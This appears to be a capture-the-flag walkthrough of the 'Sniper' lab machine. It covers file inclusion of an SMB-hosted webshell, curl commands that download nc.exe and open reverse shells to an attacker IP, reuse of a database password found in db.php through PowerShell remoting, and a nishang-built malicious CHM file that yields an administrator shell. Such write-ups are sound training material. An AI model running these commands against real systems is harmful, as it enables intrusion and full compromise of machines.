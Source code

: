 # Sniper

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.229.6
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-03 09:19 EDT
Nmap scan report for 10.129.229.6
Host is up (0.011s latency).
Not shown: 65530 filtered tcp ports (no-response)
PORT      STATE SERVICE
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
49667/tcp open  unknown
```

### Sniper Co

Port 80 is hosting a corporate website:

<figure><img src="../../../.gitbook/assets/image (352).png" alt=""><figcaption></figcaption></figure>

I clicked all the services, and found that Our Services works and brings us to `/blog/index.php`.&#x20;

<figure><img src="../../../.gitbook/assets/image (354).png" alt=""><figcaption></figcaption></figure>

When changing languages, I noticed this:

<figure><img src="../../../.gitbook/assets/image (479).png" alt=""><figcaption></figcaption></figure>

This looks vulnerable to LFI, and since this is a Windows machine, we can try to use `\\` to access our machien via SMB. I hosted a `cmd.php` webshell using `smbserver.py`. Then, we can try to access it via `curl`.

```bash
curl 'http://10.129.229.6/blog/?lang=\\10.10.14.13\share\cmd.php&cmd=whoami'
<TRUNCATED>
nt authority\iusr
```

This works! We can now get a reverse shell using `nc.exe`.

<pre class="language-bash" data-overflow="wrap"><code class="lang-bash">curl 'http://10.129.229.6/blog/?lang=\\10.10.14.13\share\cmd.php&#x26;cmd=powershell+-c+wget+10.10.14.13/nc64.exe+-Outfile+C:\windows\tasks\nc.exe'

<strong>curl 'http://10.129.229.6/blog/?lang=\\10.10.14.13\share\cmd.php&#x26;cmd=C:\windows\tasks\nc.exe+-e+cmd.exe+10.10.14.13+4444'
</strong></code></pre>

<figure><img src="../../../.gitbook/assets/image (208).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Chris Credentials

Within the files for the website, we can see a `user` directory:

```
C:\inetpub\wwwroot>dir
Volume in drive C has no label.
Volume Serial Number is AE98-73A8

Directory of C:\inetpub\wwwroot

04/11/2019  10:51 AM    <DIR>          .
04/11/2019  10:51 AM    <DIR>          ..
04/11/2019  05:23 AM    <DIR>          blog
04/11/2019  05:23 AM    <DIR>          css
04/11/2019  05:23 AM    <DIR>          images
04/11/2019  05:22 PM             2,635 index.php
04/11/2019  05:23 AM    <DIR>          js
04/11/2019  05:23 AM    <DIR>          scss
10/01/2019  08:44 AM    <DIR>          user
               1 File(s)          2,635 bytes
               8 Dir(s)   2,415,136,768 bytes free
```

Within that, there is a `db.php` file that contains credentials:

```php
<?php
// Enter your Host, username, password, database below.
// I left password empty because i do not set password on localhost.
$con = mysqli_connect("localhost","dbuser","36mEAhz/B8xQ~2VM","sniper");
// Check connection
if (mysqli_connect_errno())
  {
  echo "Failed to connect to MySQL: " . mysqli_connect_error();
  }
?>
```

This might be the credentials for the user, `Chris`. When we check the user's permissions, we se that he's part of the Remote Management Use group, meaning that we can use this credentials using Remote Powershell to get RCE.

```
C:\inetpub\wwwroot\user>net user chris
User name                    Chris
Full Name                    
Comment                      
User's comment               
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            4/11/2019 6:53:37 AM
Password expires             Never
Password changeable      4/11/2019 6:53:37 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script                 
User profile                 
Home directory               
Last logon                   8/15/2019 12:23:43 AM

Logon hours allowed          All

Local Group Memberships      *Remote Management Use*Users                
Global Group memberships     *None                 
The command completed successfully.
```

This can be done like so:

```powershell
$pass = ConvertTo-SecureString "36mEAhz/B8xQ~2VM" -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential("sniper\chris", $pass)
Invoke-Command -Computer localhost -ScriptBlock { whoami } -Credential $cred
# for shell
Invoke-Command -Computer localhost -ScriptBlock { \\10.10.14.13\share\nc64.exe -e cmd.exe 10.10.14.13 4444 } -Credential $cred
```

<figure><img src="../../../.gitbook/assets/image (183).png" alt=""><figcaption></figcaption></figure>

Now, we can execute `nc.exe` file to get another reverse shell and grab the user file.

<figure><img src="../../../.gitbook/assets/image (209).png" alt=""><figcaption></figcaption></figure>

### CHM

As the user, we can view `C:\Docs`. Inside, there are some files, including a note.

{% code overflow="wrap" %}
```
C:\Docs>type note.txt
Hi Chris,
        Your php skillz suck. Contact yamitenshi so that he teaches you how to use it and after that fix the website as there are a lot of bugs on it. And I hope that you've prepared the documentation for our new app. Drop it here when you're done with it.

Regards,
Sniper CEO.
```
{% endcode %}

Within the user's Downloads file, we find a `chm` file.

```
C:\Users\Chris\Downloads>ir
dir
 Volume in drive C has no label.
 Volume Serial Number is AE98-73A8

 Directory of C:\Users\Chris\Downloads

04/11/2019  08:36 AM    <DIR>          .
04/11/2019  08:36 AM    <DIR>          ..
04/11/2019  08:36 AM            10,462 instructions.chm
               1 File(s)         10,462 bytes
               2 Dir(s)   2,421,116,928 bytes free
```

We can transfer this back to our machine via SMB for further analysis. This is a Windows file, so we can open it on our Windows machine.

<figure><img src="../../../.gitbook/assets/image (102).png" alt=""><figcaption></figcaption></figure>

Interesting. CHM is exploitable by us, and we can use `nishang` to do so. All we need to do is use `Out-CHM.ps1` to create a CHM file with a payload.

```powershell
# on Windows
Out-CHM -Payload "\\10.10.14.13\share\nc.exe -e cmd.exe 10.10.14.13 4444" -HHCPath "C:\Program Files (x86)\HTML Help Workshop"
```

This would generate another CHM file, of which we just need to download it to the machine and rename it as `instructions.chm` and place it within `C:\Docs`. Then, we just need to wait a bit and our listener port will catch a reverse shell as the administrator.&#x20;

```
$ nc -lnvp 4444                        
listening on [any] 4444 ...
connect to [10.10.14.13] from (UNKNOWN) [10.129.229.6] 49675
Microsoft Windows [Version 10.0.17763.678]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\inetpub\wwwroot\blog>whoami
whoami
sniper\administrator
```

